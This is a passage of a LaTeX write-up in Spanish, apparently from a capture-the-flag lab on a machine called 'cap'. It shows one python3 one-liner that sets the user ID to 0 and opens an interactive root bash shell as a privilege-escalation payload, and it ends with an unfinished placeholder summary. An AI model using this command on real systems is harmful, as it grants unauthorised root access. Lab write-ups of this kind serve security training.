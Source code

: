 Se ha investigado sobre posibles payloads y al final se ha decidido usar el siguiente para ganar acceso como \textit{root} (figura \ref{fig:cap-root}).
\begin{lstlisting}[language=bash]
python3 -c "import os; os.setuid(0); os.system('/bin/bash -i')"
\end{lstlisting}

\begin{figure}[h]
    \centering
    \includegraphics[width=0.8\textwidth]{images/machines/cap/root.png}
    \caption{Escalada de privilegios y obtención de \textit{root}}
    \label{fig:cap-root}
\end{figure}

\newpage

\subsection{Resumen}

resumen de la máquina, vulnerabilidades encontradas y demás